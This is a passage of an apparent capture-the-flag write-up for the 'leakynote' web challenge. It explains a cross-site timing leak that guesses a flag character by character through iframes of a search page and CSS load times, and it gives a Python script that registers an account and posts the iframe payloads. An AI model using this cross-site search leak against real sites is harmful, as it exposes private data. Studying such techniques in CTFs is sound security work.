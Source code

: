 1. Open many post pages of `<iframe src="/search.php?query=corctf{a">`.
2. Measure the loading time of the CSS files from a cross-site page, as soon as all the post pages are opened.
3. Then, the time depends on whether the CSS file loading is busy or not.
    - If the flag includes `corctf{a` => the CSS file loading is **not** busy => the loading time of step 2 is **short**.
    - If the flag does **not** include `corctf{a` => the CSS file loading is busy => the loading time of step 2 is **long**.

## Exploit

A leak of the next character to `corctf{leakrgo` is as follows.

1. Create posts that will be used in the oracle:

`make_posts.py`:
```python
import httpx
import string
import random
import sys
import re

BASE_URL = "https://leakynote.be.ax"
CHARS = "}abcdefghijklmnopqrstuvwxyz"

prefix = sys.argv[1]
print(f"{prefix = }")

username = "".join(random.choices(string.ascii_letters, k=8))
password = "".join(random.choices(string.ascii_letters, k=8))

client = httpx.Client()

res = client.post(
    f"{BASE_URL}/register.php",
    data={
        "name": username,
        "pass": password,
    },
)
assert res.status_code == 302

for c in CHARS:
    query = "".join([f"&#{ord(x)};" for x in (prefix + c)[-6:]])
    contents = f'<iframe src="/search.php?query={query}">'
    assert len(contents) <= 100
    res = client.post(
        BASE_URL,
        data={
            "title": "a",
            "contents": contents,
        },
    )
    assert res.status_code == 200

res = client.get(BASE_URL)
ids = re.findall(r"<a href='/post\.php\?id=([0-9a-f]+)'>", res.text)
print(f"const TARGET_IDS = {ids};")
```
